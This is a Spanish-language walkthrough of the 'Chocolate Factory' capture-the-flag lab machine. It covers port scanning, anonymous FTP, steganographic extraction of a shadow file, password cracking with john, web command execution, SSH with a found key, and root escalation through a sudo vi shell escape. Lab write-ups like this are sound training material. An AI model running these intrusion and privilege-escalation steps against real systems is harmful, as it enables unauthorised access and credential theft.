






<div align="center">
  
</div>

<div align="center">

# Chocolate Factory <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [**Anonymous FTP Access**, **Remote Command Execution - RCE**, **Sudo Misconfiguration**, **Esteganografía**, **ghidra**, **steghide**] |

</div>

# Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Llave de usuario **charlie**](#llave-de-usuario-charlie)
- [Shell con root - Escalada de privilegios](#shell-con-root---escalada-de-privilegios)

<br>

### Escaneos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 10.114.190.134 -oG target.log
```

```
# Nmap 7.95 scan initiated Tue Oct 27 21:09:25 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG target.log 10.114.190.134
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.114.190.134 ()	Status: Up
Host: 10.114.190.134 ()	Ports: 21/open/tcp//ftp///, 22/open/tcp//ssh///, 80/open/tcp//http///, 100/open/tcp//newacct///, 101/open/tcp//hostname///, 102/open/tcp//iso-tsap///, 103/open/tcp//gppitnp///, 104/open/tcp//acr-nema///, 105/open/tcp//csnet-ns///, 106/open/tcp//pop3pw///, 107/open/tcp//rtelnet///, 108/open/tcp//snagas///, 109/open/tcp//pop2///, 110/open/tcp//pop3///, 111/open/tcp//rpcbind///, 112/open/tcp//mcidas///, 113/open/tcp//ident///, 114/open/tcp//audionews///, 115/open/tcp//sftp///, 116/open/tcp//ansanotify///, 117/open/tcp//uucp-path///, 118/open/tcp//sqlserv///, 119/open/tcp//nntp///, 120/open/tcp//cfdptkt///, 121/open/tcp//erpc///, 122/open/tcp//smakynet///, 123/open/tcp//ntp///, 124/open/tcp//ansatrader///, 125/open/tcp//locus-map///	Ignored State: closed (65506)
# Nmap done at Tue Oct 27 21:09:38 2026 -- 1 IP address (1 host up) scanned in 13.62 seconds
```

<br>

```shell
nmap -p21,22,80,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122,123,124,125 -sV -sC 10.114.190.134 -oN openPorts.log
```

Puedes ver la salida del escaneo exhaustivo haciendo [click aquí](./assets/openPorts.log)

<br>

### Llave de usuario **charlie**

29 puertos abiertos... Varios aceptan raw connection a través de `nc` (o así parece) según el escaneo con `nmap`.

El servicio web por el puerto 80 tiene un form nada más al entrar.
Rutas encontradas:
  
```
  /home.php
  /validate.php -> # endpoint donde se valida el acceso por el form
```

<div align="center">
    
    <br>
    <em>Formulario de acceso del servivio HTTP</em>
    <br><br>
    
    <br>
    <em>Código fuente del formulario de acceso</em>
</div>

<br><br>

Entramos al servicio **FTP** por el puerto `21` y el usuario "*anonymous*" no tenía contraseña (*incluso cuando la solicita*), es decir, vacía. Obtenemos una imágen llamada `gum_room.jpg`, es una imágen con paquetes de chicles. Se pueden ver algunos nombres y demás especificaciones del producto, procedemos a hacer un poco de forense para ver que revela.

```shell
❯ steghide info gum_room.jpg
  "gum_room.jpg":
    format: jpeg
    capacity: 10.9 KB
  Try to get information about embedded data ? (y/n) y
  Enter passphrase: 
    embedded file "b64.txt":
      size: 2.5 KB
      encrypted: rijndael-128, cbc
      compressed: yes
```

<br>

Tras hacer un pequeño escaneo con `steghide` revela que tiene un archivo embebido (sin passphrase).

```shell
❯ steghide --extract -sf gum_room.jpg
  Enter passphrase: 
  wrote extracted data to "b64.txt".
```

<br>

El archivo extraído `b64.txt` contiene el `/etc/shadow` del sistema. Aparentemente la contraseña del usuario "**charlie**" es un SHA-512 Crypt. Tras crackearla con `john` nos da la siguiente contraseña.

```shell
❯ base64 -d b64.txt | grep -i charlie | cut -d':' -f2 | hashid
  Analyzing '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/'
  [+] SHA-512 Crypt

❯ john --wordlist=/usr/share/wordlists/rockyou.txt charlie_pwd
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:15 0.74% (ETA: 22:05:36) 0g/s 8341p/s 8341c/s 8341C/s balls2..890825
[ REDACTED ]           (charlie)     
1g 0:00:02:13 DONE (2026-10-27 21:34) 0.007512g/s 7396p/s 7396c/s 7396C/s colachito..cn123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<br>

Con esas credenciales podemos acceder al servicio web, una vez vista la estructura desarrollamos un script para poder interactuar mediante la shell, puedes hacer [click aquí](./assets/rce.py) para leer el script.

<div align="center">
    
    <br>
    <em>Campo (input) ejecutando comandos</em>
    <br><br>
    
    <br>
    <em>Código fuente de los resultados de la ejecución de comandos</em>
</div>

<br><br>

En el mismo directorio del servidor (`/var/www/html`) hay un binario bastante curioso, al solicitarlo en la ruta, lo descargamos y lo analizamos con `ghidra`

```shell
❯ python3 rce.py
 > ls -la
total 1152
drwxr-xr-x 2 root    root       4096 Oct  6  2020 .
drwxr-xr-x 3 root    root       4096 Sep 29  2020 ..
-rw------- 1 root    root      12288 Oct  1  2020 .swp
-rw-rw-r-- 1 charlie charley   65719 Sep 30  2020 home.jpg
-rw-rw-r-- 1 charlie charley     695 Sep 30  2020 home.php
-rw-rw-r-- 1 charlie charley 1060347 Sep 30  2020 image.png
-rw-rw-r-- 1 charlie charley    1466 Oct  1  2020 index.html
-rw-rw-r-- 1 charlie charley     273 Sep 29  2020 index.php.bak
-rw-r--r-- 1 charlie charley    8496 Sep 30  2020 key_rev_key
-rw-rw-r-- 1 charlie charley     303 Sep 30  2020 validate.php
 > file key_rev_key
key_rev_key: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8273c8c59735121c0a12747aee7ecac1aabaf1f0, not stripped
```

<div align="center">
    
    <br>
    <em>Descarga de binario misterioso</em>
</div>

<br><br>

```shell
❯ chmod +x key_rev_key
❯ ./key_rev_key
Enter your name: charlie
Bad name!
```

<br>

Lo analizamos con `ghidra`

<div align="center">
    
    <br>
    <em>Descarga de binario misterioso</em>
</div>

<br><br>

Vamos a dejar todo esto en pausa y estando dentro en el directorio `/home/charlie` hay dos archivos llamados `teleport` son **llaves RSA**, copiamos la privada e ingresamos como "**charlie**"


```shell
❯ chmod 600 id_charlie
❯ ssh -i id_charlie charlie@10.114.190.134
...
charlie@ip-10-114-190-134:/$ whoami;id;groups;pwd
charlie
uid=1000(charlie) gid=1000(charley) groups=1000(charley),0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
charley root adm cdrom sudo dip plugdev lxd
/charlie@ip-10-114-190-134:/$ cd /home/charlie/
charlie@ip-10-114-190-134:/home/charlie$ ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 5 root    root    4096 Jul 13  2025 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
```

<br>

Tenemos el **primer flag**.

<br>

### Shell con root - Escalada de privilegios

Investigando dentro, lo primero por hacer es `sudo -l`, a pesar de que la Runa (Runes) dice que NO tenemos acceso a `/usr/bin/vi` como root (`!root`), la verdad es que no es cierto, así que hacemos:

<div align="center">
    
    <br>
    <em>Descarga de binario misterioso</em>
</div>

<br>

```shell
  sudo /usr/bin/vi
```

<br>

Dentro de vi:

```
  :!/bin/bash
```

<br>

Somos root:

```
root@ip-10-114-190-134:/home/charlie# whoami
root
root@ip-10-114-190-134:/home/charlie# cd /root
root@ip-10-114-190-134:~# ls -la
total 56
drwx------  7 root    root    4096 Oct 27 22:14 .
drwxr-xr-x 24 root    root    4096 Oct 27 20:08 ..
-rw-------  1 root    root       7 Oct 27 22:14 .bash_history
-rw-r--r--  1 root    root    3106 Apr  9  2018 .bashrc
drwx------  3 root    root    4096 Oct  1  2020 .cache
drwx------  3 root    root    4096 Sep 30  2020 .gnupg
drwxr-xr-x  3 root    root    4096 Sep 29  2020 .local
-rw-r--r--  1 root    root     161 Jan  2  2024 .profile
-rwxr-xr-x  1 charlie charley  491 Oct  1  2020 root.py
-rw-r--r--  1 root    root      66 Sep 30  2020 .selected_editor
drwx------  3 root    root    4096 Apr 26  2025 snap
drwx------  2 root    root    4096 Jul 13  2025 .ssh
-rw-------  1 root    root    6875 Jul 13  2025 .viminfo
```

<br>

Ya que el flag no está y por otra parte hay un script de python que tendremos que descifrar con alguna de las claves que ya hayamos obtenido anteriormente.

```
❯ python3 decrypt.py
f959205e115feac004700c2b0ba611f9265b8ae49bf00057790baf85c1924336
❯ python3 root.py
Enter the key:  f959205e115feac004700c2b0ba611f9265b8ae49bf00057790baf85c1924336
Traceback (most recent call last):
  File "/home/hellhound/Desktop/ChocolateFactory/root.py", line 5, in <module>
    f=Fernet(key)
  File "/usr/lib/python3/dist-packages/cryptography/fernet.py", line 40, in __init__
    raise ValueError(
        "Fernet key must be 32 url-safe base64-encoded bytes."
    )
ValueError: Fernet key must be 32 url-safe base64-encoded bytes.
```

<br>

En efecto sólo había que darle el contenido en **STRING** de lo que habíamos encontrado cuando desemsamblamos el binario. Además estará todo bien, salvo que se va a quejar por el módulo *pyfiglet*, simplemente hay que sacarle los "*display*" de figlet y poner `print()`, nos dará el flag de `root`.

```
python3 root.py
Enter the key:  -VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
You Are Now The Owner Of 
Chocolate Factory 
flag{ [ REDACTED ] }
```

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>